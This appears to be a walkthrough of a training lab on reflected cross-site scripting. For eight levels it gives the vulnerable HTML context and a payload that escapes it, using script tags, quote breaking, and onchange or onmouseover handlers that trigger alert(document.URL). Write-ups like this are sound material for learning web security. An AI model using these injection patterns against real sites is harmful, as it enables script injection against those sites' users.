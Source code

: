 # Leettime

URL: http://leettime.net/xsslab1

## Lab Solutions

> To check for an injection point I have used `tipsy` as an input parameter.

- [Level 1](http://leettime.net/xsslab1/chalg1.php)

    **Vulnerable Code :** 

    ```jsx
    <center>cannot find tipsy</center>
    ```

    Now as you can see, this is simply reflecting the input, and thus we can use our most basic payload. 

    - **Payload :**

        ```jsx
        <script> alert(document.URL) </script>
        ```

- [Level 2](http://leettime.net/xsslab1/sta_ge2.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value=tipsy></input>
    ```

    Now as you can see, the input is being loaded inside the input tag. So naturally we can try to skip over the input tag using the following payload.

    - **Payload :**

        ```jsx
        ></input><script> alert(document.URL) </script>
        ```

- [Level 3](http://leettime.net/xsslab1/stg_3.php)

    **Vulnerable Code :** 

    ```jsx
    <font size=3>Enter Your Name here : <input type="text" name="name" value="tipsy"></input>
    ```

    Now as you can see, the input is being loaded inside the input tag, but along with a ' " '  . So naturally, we can try to skip over the input tag using the following payload.

    - **Payload :**

        ```jsx
        "></input><script> alert(document.URL) </script>
        ```

- [Level 4](http://leettime.net/xsslab1/chlng_004.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    This one is a slight modification over the last one in a way that " was replaced with '. we can bypass this and create our payload in the same way.

    - **Payload :**

        ```jsx
        '></input><script> alert(document.URL) </script>
        ```

- [Level 5](http://leettime.net/xsslab1/chl05.php)

    **Vulnerable Code :** 

    ```jsx
    <script>var search_str="tipsy";</script>
    ```

    In this one, as we can see `tipsy` occurs inside a script tag. hence we will need to close the script tag first and then inject our basic payload.

    - **Payload :**

        ```jsx
        ";</script><script> alert(document.URL) </script>
        ```

- [Level 6](http://leettime.net/xsslab1/ch__006_.php)

    **Vulnerable Code :** 

    ```jsx
    <script>var search_str='tipsy';</script>
    ```

    This is just a slight modification over the last one, and hence the payload is easier to write.

    - **Payload :**

        ```jsx
        ';</script><script> alert(document.URL) </script>
        ```

- [Level 7](http://leettime.net/xsslab1/ch_7_stage.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    This one again looks like a basic one, but this time when we try to inject it with `'></input><script> alert(document.URL)</script>` , it doesn't work, and the source code shows 

    `<input type="text" name="name" value=''</input<script document.URL </script'></input>`

    This means that we need to exploit some functionality used by input tag.

    After some research , `on change` can be added to inject the payload.

    - **Payload :**

        ```jsx
        ' onchange='alert(document.URL)'
        ```

- [Level 8](http://leettime.net/xsslab1/stage--08.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    In this the input is being tokenized, and trying out all the previous payloads doesn't work.

    So always remember to check all the parameters, 

    In this case, let's see the request that is being sent.

    [`http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search`](http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search)

    and we have already seen that name parameter is not vulnerable.

    Let's try to change the value of `submit`` parameter and check if it is reflecting !

    New request - 

    [`http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy`](http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy)

    **Vulnerable Code :**

    ```python
    <input type="submit" name="submit" value="tipsy">
    ```

    Now let's try to build the payload with mouseonover 

    - **Payload :**

        ```jsx
        " onmouseover="alert(document.URL);
        ```

- 

## And we are done !!

![](Screenshot_from_2020-03-31_16-51-46.png)
